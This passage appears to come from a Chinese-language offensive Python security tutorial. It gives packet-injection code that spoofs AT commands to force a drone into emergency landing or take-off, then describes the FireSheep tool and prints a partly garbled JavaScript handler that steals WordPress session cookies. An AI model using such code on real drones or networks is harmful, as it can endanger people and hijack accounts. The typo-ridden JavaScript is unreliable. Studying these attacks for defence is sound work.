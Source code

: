 接下来拼凑在一起：

```python
def inject_cmd(self, cmd):
    radio = dup.dup_radio(self.cur_pkt)
    dot11 = dup.dup_dot11(self.cur_pkt)
    snap = dup.dup_snap(self.cur_pkt)
    llc = dup.dup_llc(self.cur_pkt)
    ip = dup.dup_ip(self.cur_pkt)
    udp = dup.dup_udp(self.cur_pkt)
    raw = Raw(load=cmd)
    inject_pkt = radio / dot11 / llc / snap / ip / udp / raw
    sendp(inject_pkt)
```

紧急迫降的指定对控制无人机来说是一条非常重要的指令。这个指令可以迫使无人机关闭引擎，并立即迫降下来。为了发出这条指令，可以使用序列号是当前的序列号再加上 100。接下来要发出指令 `AT*COMWDG=$SEQ\r`。这条指令的作用是把通信中的计数器重置成我们新设置的顺序值。之后无人机将会忽略之前的或者顺序号不匹配的指令。最后，再发送紧急迫降指令

### 完成攻击，使无人机紧急迫降

```python
def emergency_land(self):
    spoof_seq = self.seq + 100
    watch = "AT*COMWDG={}\r".format(spoof_seq)
    to_cmd = "AT*REF={},{}\r".format(spoof_seq + 1, EMER)
    self.inject_cmd(watch)
    self.inject_cmd(to_cmd)
    
def take_off(self):
    spoof_seq = self.seq + 100
    watch = "AT*COMWDG={}\r".format(spoof_seq)
    to_cmd = "AT*REF={},{}\r".format(spoof_seq + 1, TAKEOFF)
    self.inject_cmd(watch)
    self.inject_cmd(to_cmd)
```

## 探测火绵羊

一款叫火绵羊（FireSheep）的工具，提供了一个简单的双击界面，可以远程接管 Facebook、Twitter、谷歌和其他大量社交媒介中毫无戒心的用户帐户。火绵羊工具会被动地监听无线网卡上由这些 Web 站点提供的 cookie。如果用户连接了不安全的无线网络，也没有使用诸如 HTTPS 之类的服务端控制措施来保护它的会话，火绵羊就会截获这些 cookie 供攻击者再次使用它们。

如果想截取特定会话中的 cookie，供重放的话，也有一个易用的接口方便编写定制的处理代码。下面这段处理代码是针对 Wordpress 的 Cookie 的

```javascript
register({
  name: "Wordpress",
  matchPacket: function(packet) {
    for (varcookieName in packet.coookies) {
      if (cookieName.match0) {
        return true;
      }
    }
  },
  
  processPacket: function () {
    this.siteUrl += "wp-admin/"
    for (varcookieName in this.firstPacket.cookies) {
      if (cookieName.match(/^wordpress_[0-9a-fA-F]{32}$/)) {
        this.sessionId = this.firstPacket.cookies[cookieName];
        break;
      }
    }
  },
    
  identifyUser: function () {
    var resp = this.httpGet(this.siteUrl);
```